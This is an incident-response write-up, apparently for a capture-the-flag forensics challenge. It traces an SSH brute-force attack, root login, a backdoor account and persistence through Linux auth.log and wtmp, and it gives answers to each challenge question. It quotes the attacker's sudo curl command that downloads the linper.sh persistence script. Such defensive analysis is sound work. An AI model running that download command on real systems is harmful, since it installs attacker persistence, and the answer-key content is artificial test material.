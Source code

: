 
# Incident Response and Forensic Analysis on SSH Brute-Force Attack

## Scenario
You will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Goal
The goal is to analyze the auth.log and the wtmp log files and answer the following questions as part of the incident response.

## Response

*Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?*

It appears that the IP 65.2.161.68 continuously keeps failing to authenticate. These logs show someone trying to log in as admin, and the system saying that there is no user admin. These failed login run from 06:31:33 to 06:31:42, suggesting a brute force tool or script is running, as a user at the keyboard could not type that fast:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/9de73f1f-2085-4d7c-8c9b-5e7dce21dc89)

*The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?*

Successful authentication as the user `root` at 06:32:44:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/d93da765-46b4-40d2-8fb7-57972efc20b1)

*Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?*

2024-03-06 06:32:45

*SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?*

37

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/c543c85a-d4a6-465d-bbcc-c7d64c4478bc)

*The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?*

cyberjunkie.

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/1531bc2f-6cad-4d58-af23-677b6c24ce55)

*What is the MITRE ATT&CK sub-technique ID used for persistence?*

[T1136.001](https://attack.mitre.org/techniques/T1136/001/)

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/78b15345-d619-4edb-b589-fb27cd95a572)

*How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)*

Total time of the session is 06:32:45 - 06:37:24, so, 279 seconds

*The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?*

`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/2265c87d-7012-445c-a50f-c3169a048d31)
